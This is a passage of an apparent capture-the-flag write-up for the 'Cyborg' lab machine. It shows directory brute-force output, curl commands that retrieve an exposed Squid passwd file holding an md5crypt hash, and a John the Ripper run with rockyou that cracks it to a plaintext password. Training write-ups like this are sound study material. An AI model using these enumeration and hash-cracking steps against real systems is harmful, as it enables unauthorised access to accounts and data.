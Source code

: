 ~~~
/.hta.txt (Status: 403)
/.hta.old (Status: 403)
/.hta.bak (Status: 403)
/.htaccess (Status: 403)
/.htaccess.old (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess.zip (Status: 403)
/.htaccess.tar (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.old (Status: 403)
/.htpasswd.bak (Status: 403)
/.htpasswd.zip (Status: 403)
/.htpasswd.tar (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/admin (Status: 301) <------------------ interesting
/etc (Status: 301) <-------------------- interesting
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2021/04/29 11:25:42 Finished
===============================================================
~~~

## The `etc` directory

The `/etc` directory contains a `squid` subdirectory, with an interesting `passwd` file:

~~~
kali@kali:/data/Cyborg/files$ curl -s http://10.10.61.219/etc/squid/ | html2text 
****** Index of /etc/squid ******
[[ICO]]       Name             Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                    -  
[[   ]]       passwd           2020-12-30 02:09   52  
[[   ]]       squid.conf       2020-12-30 02:09  258  
===========================================================================
     Apache/2.4.18 (Ubuntu) Server at 10.10.61.219 Port 80
~~~

The `passwd` file contains encrypted credentials for the `music_archive` user:

~~~
kali@kali:/data/Cyborg/files$ curl -s http://10.10.61.219/etc/squid/passwd
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
~~~

Let's crack the hash:

~~~
kali@kali:/data/Cyborg/files$ /data/src/john/run/john passwd.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (?)
1g 0:00:00:00 DONE (2021-04-29 11:43) 3.846g/s 149907p/s 149907c/s 149907C/s 112806..samantha5
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~
